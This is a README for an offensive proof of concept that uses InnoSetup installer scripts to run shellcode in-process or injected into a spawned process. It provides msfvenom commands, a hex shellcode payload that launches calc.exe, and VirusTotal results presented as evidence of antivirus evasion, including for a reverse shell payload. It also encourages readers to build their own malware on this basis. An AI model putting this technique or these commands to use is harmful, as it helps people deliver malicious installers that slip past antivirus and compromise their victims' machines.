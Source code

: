# InnoSetup Execute Shellcode PoC

![Screenshot 2021-07-21 at 16.05.10.png](https://www.phrozen.io/media/all/Screenshot_2021-07-20_at_19.09.53.png)

This proof of concept demonstrate how to take advantage of InnoSetup Scripting Engine to host local/remote process shellcode payload then execute.

The idea behind this concept is to demonstrate the dangerosity of (self) installers. Not only they can contain malicious programsn, they can also run native code through their scripting engines and evade AV detections because of their natural aspect.

The most difficult part was to understand how to use pointers/refs. Basically from this example, it is possible to create any kind of Malware from scratch (even more complex ones). Feel free to try, if you have any technical questions, feel free to ask for some help.

## Parameters

Parameters are located at the top of the InnoSetup Script File.

 * `SpawnNewProcess`: (1|0) : If set to `1`, payload will be stored and executed from a new process (default: notepad.exe). If set to `0`, the payload will be stored and executed from current InnoSetup Installer Process.
 * `SpawnProcessName`: (STR) : This parameter is only use if `SpawnNewProcess` parameter is set to `1`. Change this value with the desired process you want to spawn.
 * `verbose`: (1|0) : Define whether or not you want to output debug messages (Ex: from DbgView)
 * `Payload`: (HEX_STR) : Define the payload itself in hex format (aligned 2). Use the `-f hex` if using Msfvenom.

## Example

It is now very easy to create your own Setup with your own payload.

Just be sure to have your shellcode encoded in hex string then replace the `Payload` parameter with your payload.

An example with Msfvenom would be:

`msfvenom -p <payload> -a x86 --platform Windows <parameters> EXITFUNC=thread -f hex`

Example: `msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f hex`

![Screenshot 2021-07-21 at 16.04.41.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-21_at_16.04.41.png)

```
#define Payload "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbe01d2a0a68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"
```

![Screenshot 2021-07-21 at 16.04.04.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-21_at_16.04.04.png)

Adjust other parameters if you want/need then you can build your setup application and enjoy the result.

Notice: If using `SpawnNewProcess`, I would highly recommend using the `ExitProcess` EXITFUNC method instead of `thread` to close the entired spawned process.

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

3/69 (Mostly generic detection because of file reputation) / Likely FUD

![Screenshot 2021-07-20 at 19.09.53.png](https://www.phrozen.io/media/all/Screenshot_2021-07-20_at_19.09.53.png)

## VirusTotal Score (UPDATE: 21 JULY 2021)

Bellow the result of a setup scan using a reverse shell payload from Msfvenom without any encoding schema:

https://www.virustotal.com/gui/file/2723ba8196721a3fd8b792b195dc20928d53d0e8b21c47da353b894cace847b9/detection

(4/69) - It evade all comonly used AV Software.
